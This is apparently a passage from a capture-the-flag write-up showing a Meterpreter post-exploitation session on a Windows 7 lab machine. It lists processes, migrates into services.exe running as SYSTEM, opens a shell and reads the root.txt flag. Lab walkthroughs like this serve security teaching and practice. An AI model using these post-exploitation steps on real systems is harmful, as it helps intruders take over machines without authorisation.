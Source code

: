 ```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
```

```
meterpreter > migrate 668
[*] Migrating from 2632 to 668...
[*] Migration completed successfully.
```

**read the root.txt file at C:\Windows\System32\config**

```
meterpreter > shell
Process 2840 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd c:\Windows\System32\config
cd c:\Windows\System32\config

c:\Windows\System32\config>type root.txt
type root.txt
dff0f748678f280250f25a45b8046b4a
```

* * * 

